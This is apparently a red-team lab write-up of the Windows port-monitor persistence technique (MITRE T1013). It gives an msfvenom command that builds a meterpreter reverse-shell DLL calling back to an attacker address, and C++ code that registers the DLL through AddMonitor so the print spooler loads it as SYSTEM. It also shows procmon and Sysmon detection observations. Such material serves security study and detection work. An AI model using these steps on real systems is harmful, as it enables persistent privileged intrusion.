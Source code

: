 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe as part of the technique - see bottom of the page for more info about the technique's high-lever overview:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code-tabs %}
{% code-tabs-item title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to %systemroot% and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed:

![](../.gitbook/assets/monitor-loaddll.png)

![](../.gitbook/assets/monitor-loaddll2.png)

which spawns a rundll32 process \(meterpreter payload\) which initiates a connection back to the attacker:

![](../.gitbook/assets/rundll-connect.png)

The attacker receives a reverse meterpreter session as **SYSTEM**:

![](../.gitbook/assets/monitor-shell-system.png)

The below shows the procmon results explained above:

![](../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../.gitbook/assets/monitor-sysmon.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1013\",\"type\":\"link\",\"title\":\"Port Monitors - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=dq2Hv7J9fvk\",\"type\":\"video\",\"title\":\"DEF CON 22 - Brady Bloxham - Getting Windows to Play with Itself\",\"description\":\"Slides here: https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf\\n\\nGetting Windows to Play with Itself: A Hacker\'s Guide to Windows API Abuse \\nBrady Bloxham PRINCIPAL SECURITY CONSULTANT, SILENT BREAK SECURITY \\nWindows APIs are often a blackbox with poor documentation, taking input and spewing output with little visibility on what actually happens in the background. By analyzing \(and abusing\) the underlying functionality of these seemingly benign APIs, we can effectively manipulate Windows into performing stealthy custom attacks bypassing the latest in protective defenses. In this talk, we’ll get Windows to play with itself nonstop while revealing 0day persistence, previously unknown DLL injection techniques, and Windows API tips and tricks that any good penetration tester and/or malware developer should know. :\) To top it all off, a custom HTTP beaconing backdoor will be released leveraging the newly released persistence and injection techniques. So much Windows abuse, so little time.\\n\\n\\nBrady Bloxham is founder and Principal Security Consultant at Silent Break Security, where he focuses on providing advanced, custom penetration testing services. Brady started his career working for the various three letter agencies, where he earned multiple awards for exceptional performance in conducting classified network operations. Brady stays current in the information security field by presenting at various hacker conferences, as well as providing training on building custom offensive security tools and advanced penetration testing techniques. Brady also maintains the PwnOS project and holds several highly respected industry certifications. :\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/dq2Hv7J9fvk/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/dq2Hv7J9fvk?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/dq2Hv7J9fvk?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"AddMonitor function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"MONITOR\_INFO\_2 structure \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}



